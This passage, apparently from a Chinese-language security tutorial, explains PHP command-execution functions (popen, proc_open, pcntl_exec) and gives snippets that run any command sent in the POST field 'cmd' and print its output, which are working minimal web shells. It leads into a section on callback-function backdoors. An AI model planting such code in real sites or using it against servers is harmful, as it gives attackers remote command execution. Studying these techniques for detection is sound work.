 ```php
resource popen ( string $command , string $mode );
# 函数需要两个参数，一个是执行的命令command，另外一个是指针文件的连接模式mode，有r和w代表读和写。函数不会直接返回执行结果，而是返回一个文件指针，但是命令已经执行。popen()打开一个指向进程的管道，该进程由派生给定的command命令执行而产生。返回一个和fopen()所返回的相同的文件指针，只不过它是单向的（只能用于读或写）并且必须用pclose()来关闭。此指针可以用于fgets()，fgetss()和 fwrite()
<?php  
$command = $_POST[cmd];  
$fp = popen($command,"r");
  
while (!feof($fp)) {
 $out = fgets($fp, 4096);  
 echo  $out;
}  
pclose($fp);  
?>

```

#### proc_open

```php
resource proc_open ( 
string $cmd , 
array $descriptorspec , 
array &$pipes [, string $cwd [, array $env [, array $other_options ]]] 
);
# 与Popen函数类似，但是可以提供双向管道
<?php  
$command = $_POST[cmd];  
$array =   array(  
 array("pipe","r"),   //标准输入  
 array("pipe","w"),   //标准输出内容  
 array("pipe","w")    //标准输出错误  
 );  
  
$fp = proc_open($command,$array,$pipes);   //打开一个进程通道  
echo stream_get_contents($pipes[1]);    //为什么是$pipes[1]，因为1是输出内容  
proc_close($fp);  
?> 

```

#### pcntl_exec

```php
void pcntl_exec ( string $path [, array $args [, array $envs ]] )
# path是可执行二进制文件路径或一个在文件第一行指定了 一个可执行文件路径标头的脚本
# args是一个要传递给程序的参数的字符串数组。
# pcntl是linux下的一个扩展，需要额外安装，可以支持 php 的多线程操作。
# pcntl_exec函数的作用是在当前进程空间执行指定程序，版本要求：PHP > 4.2.0
```

### PHP中回调函数后门
